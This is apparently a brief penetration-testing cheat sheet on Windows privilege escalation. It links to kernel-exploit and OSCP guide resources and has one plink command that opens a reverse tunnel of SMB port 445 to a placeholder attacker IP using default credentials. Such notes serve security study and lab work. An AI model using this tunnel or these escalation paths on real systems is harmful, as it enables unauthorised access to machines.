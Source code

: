# Windows Escalation Paths

## Kernel Exploits

- [Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)


## Password and Port Forwarding

- [Privilege Escalation Windows](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
- [Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) for Port Forwarding

```cmd
plink.exe -l root -pw toor -R 445:127.0.0.1:445 <attackers ip>

```


## Windows Subsystem for Linux
